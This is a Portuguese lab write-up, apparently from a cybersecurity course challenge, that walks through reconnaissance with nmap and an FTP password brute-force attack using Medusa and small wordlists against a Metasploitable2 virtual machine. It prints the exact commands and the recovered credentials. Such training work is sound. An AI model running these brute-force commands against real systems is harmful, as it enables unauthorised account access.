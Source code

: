 # Simulando um Ataque de Brute Force de Senhas com Medusa e Kali Linux.

## Visão geral
Desafio do curso de Cibersegurança 2025 da Santander com parceria DIO, com o intuito de práticar e simular ataques de força bruta e criação de wordlists em um ambiente controlado, utilizando os sistemas Kali Linux e a ferramenta Medusa para acessar o Metasploitable2 e DVWA.

---

## Verificação de ip
No Metasploitable2 que será utilizado como a máquina alvo iremos verificar o ip com o comando "ip a".

<img width="644" height="239" alt="image" src="https://github.com/user-attachments/assets/3b6471e9-e284-4381-8b16-6ff12a7dab3c" />

Obtivemos o ip “192.168.56.101” da máquina alvo.
Agora que conseguimos o ip da máquina alvo, será feito o teste de conectividade para verificar se as máquinas estão na mesma rede, com o comando.

ping -c 3 192.168.56.101

<img width="613" height="196" alt="image" src="https://github.com/user-attachments/assets/1b8b87c6-680a-4cd2-9c37-1d971ce055c2" />

---

##Verificação de portas abertas
Com as máqinas conectadas na mesma rede, iremos fazer a verificação de portas abertas da máquina alvo, com o comando.
nmap -sV -p 21,22,80,445,139 192.168.56.102
<img width="886" height="312" alt="image" src="https://github.com/user-attachments/assets/16846d38-2532-4d44-9f17-34b6a54dabe7" />
A porta que iremos atacar será a 21/tcp do serviço ftp.

---

##Criando listas de usuários e senhas + ataque com a Medusa
Com os seguintes comandos iremos criar os usuários e senhas para realizar o ataque com a Medusa.

echo -e "user\nmsfadmin\nadmin\nroot" > users.txt
echo -e "123456\npassword\nqwerty\nmsfadmin" > pass.txt

Lista de usuários e senhas criadas, agora será feito o ataque na máquina alvo com o seguinte comando.
medusa -h 192.168.56.102 -U users.txt -P pass.txt -M ftp -t 6
<img width="886" height="378" alt="image" src="https://github.com/user-attachments/assets/eb510397-cee6-46e3-bc15-321fc51bae8b" />
Senha e usuário capturadas com sucesso.
ACCOUNT FOUND: [ftp] Host: 192.168.56.101 User: msfadmin Password: msfadmin [SUCCESS]

---

##Realizando o ataque
Com os dados da senha e usuário capturados é a hora de realizar o ataque a máquina alvo através do serviço ftp, com o comando.
ftp 192.168.56.101
<img width="495" height="292" alt="image" src="https://github.com/user-attachments/assets/c5c0a67b-84d7-4ac2-83fd-e282de270355" />
Máquina alvo acessada com sucesso.

---

